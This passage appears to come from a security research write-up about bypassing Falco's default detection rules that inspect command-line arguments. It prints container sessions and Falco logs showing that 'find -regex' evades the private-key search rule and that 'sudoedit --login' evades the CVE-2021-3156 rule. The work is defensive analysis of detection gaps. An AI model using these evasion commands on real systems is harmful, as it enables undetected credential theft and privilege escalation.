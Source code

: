 To understand how common the usage of command line parameters in the default ruleset is and whether we can use this technique to evade other rules we search for _proc.args_ constructs. There are four other rules that use _proc.args_ command in a meaningful way:
1. **Search Private Keys or Passwords**
2. **Delete Bash History** (deprecated)
3. **Sudo Potential Privilege Escalation**
4. **Mount Launched in Privileged Container** - through `mount_info` macro

**Search Private Keys or Passwords** uses _proc.args_ to detect searches for "id_rsa" and "id_dsa" private key files. Due to the expressiveness of find utility we can easily bypass the search through the usage of _-regex_ argument:
```
[Container]
[tutorial@osboxes falco-bypasses]$ docker run -it debian:10.2 bash
root@d0d423987b37:/# find / -name id_rsa
-----
[Falco]
00:11:41.762019106: Warning Grep private keys or passwords activities found (user=root user_loginuid=-1 command=find / -name id_rsa container_id=d0d423987b37 container_name=pedantic_easley image=debian:10.2) k8s.ns=<NA> k8s.pod=<NA> container=d0d423987b37 k8s.ns=<NA> k8s.pod=<NA> container=d0d423987b37
-----
[Container]
root@d0d423987b37:~/.ssh# find / -regex .*id_.sa$
/root/.ssh/id_rsa
-----
[Falco]
SILENCE
```
**Sudo Potential Privilege Escalation** is the rule detecting the very recent privilege escalation vulnerability in sudo package CVE-2021-3156. _proc.args_ is used to check for execution functionality flags in sudoedit:
```
[Container]
$ docker run -it sshayb/fuber:latest bash
root@018ccf061927:/tmp# useradd g00fb4ll
root@018ccf061927:/tmp# su g00fb4ll
$ sudoedit -s '\' 'id'
usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout]
                [-u user] file ...
$ sudoedit -i '\' 'id'
usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout]
                [-u user] file ...
-----
[Falco]
01:43:32.114285216: Critical Detect Sudo Privilege Escalation Exploit (CVE-2021-3156) (user=<NA> parent=sh cmdline=sudoedit -s \ id k8s.ns=<NA> k8s.pod=<NA> container=018ccf061927) k8s.ns=<NA> k8s.pod=<NA> container=018ccf061927
01:43:56.780577427: Critical Detect Sudo Privilege Escalation Exploit (CVE-2021-3156) (user=<NA> parent=sh cmdline=sudoedit -i \ id k8s.ns=<NA> k8s.pod=<NA> container=018ccf061927) k8s.ns=<NA> k8s.pod=<NA> container=018ccf061927
-----
```
Now, if we take look at sudoedit usage we see that _-i_ is also _--login_ and that defeats the rule easily:
```
[Container]
$ sudoedit --login '\' 'id'
usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout]
                [-u user] file ...
-----
[Falco]
SILENCE
```

[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS